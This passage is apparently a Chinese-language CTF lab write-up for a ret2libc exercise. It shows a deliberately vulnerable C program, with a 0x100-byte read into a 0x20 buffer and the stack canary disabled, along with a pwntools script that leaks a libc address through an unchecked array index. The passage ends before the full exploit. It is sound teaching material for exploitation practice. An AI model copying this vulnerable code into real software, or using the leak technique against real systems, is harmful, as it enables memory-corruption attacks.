 ```c=
    }
    char message[0x20];
    printf("Leave a message: ");
    read(0, message, 0x100);
    return 0;
}
```

使用以下指令進行編譯：



```sh=
gcc src/ret2libc.c -o ./ret2libc/share/ret2libc -fno-stack-protector
```

這個範例可以讓大家練習 ret2libc 攻擊，接下來是進一步的解題步驟。

## writeup

觀察程式，我們可以發現它關閉了 Canary，且未使用靜態編譯 (`-static`)，所以不能簡單地使用 ROP。然而，我們可以利用程式中的功能來編輯和查看 `num` 陣列，最終利用 `read` 函數讀取輸入並導致 buffer overflow。程式可以 overflow 的範圍為 `0x100 - 0x20 = 0xe0`，並且在查看陣列時未檢查索引值是否越界，這提供了一個潛在的越界讀取機會，可能可以洩露 `libc` 位址。

接下來，我們使用 `patchelf` 指令將 `libc` 和 `ld` patch 上去，讓本地環境與遠端環境盡量一致：
```patchelf --replace-needed libc.so.6 ./libc.so.6 --set-interpreter ./ld-2.XX.so ./ret2libc```

然後，我們可以使用以下 script 並連接 `gdb` 來測試是否能讀取到 `libc` 位址：

```py=
from pwn import *

r = process('./ret2libc')
gdb.attach(r)
context.terminal = ['tmux', 'splitw', '-h']
for i in range(11,21,1):
    r.sendlineafter('>> ', '2')
    r.sendlineafter('Index: ', str(i))
    r.recvuntil('Number: ')
    print(f'Index {i}: {hex(int(r.recvline().strip()))}')

r.interactive()
```

當執行到 Index: 11 到 Index: 20 之間時，我們可以發現一些有趣的資訊：

![image](https://hackmd.io/_uploads/ryXv_aa6R.png)

接下來，我們使用 `libc` 指令來查看 `libc` 的 base address：

![image](https://hackmd.io/_uploads/ry_YOTTTA.png)

發現 `Index 11` 的位址與 `libc` 的 base address 只差 `0x29d90`。為了驗證，我們修改 script：

![image](https://hackmd.io/_uploads/rJOCOpTTC.png)

